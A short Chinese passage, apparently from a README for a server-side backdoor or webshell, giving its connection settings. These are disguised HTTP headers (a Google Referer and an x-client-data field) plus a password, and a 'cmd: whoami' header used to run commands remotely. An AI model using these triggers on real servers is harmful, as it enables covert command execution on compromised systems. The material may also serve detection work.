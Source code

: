 当加载后可以看到服务器端：

![image-20240831101421628](assets/image-20240831101421628.png)

连接配置信息：

```
Referer: https://www.google.com/
x-client-data: google

pass: m@nb666
```

![image-20240831101505874](assets/image-20240831101505874.png)

回显信息：

```
Referer: https://www.google.com/
x-client-data: cmd
cmd: whoami
```
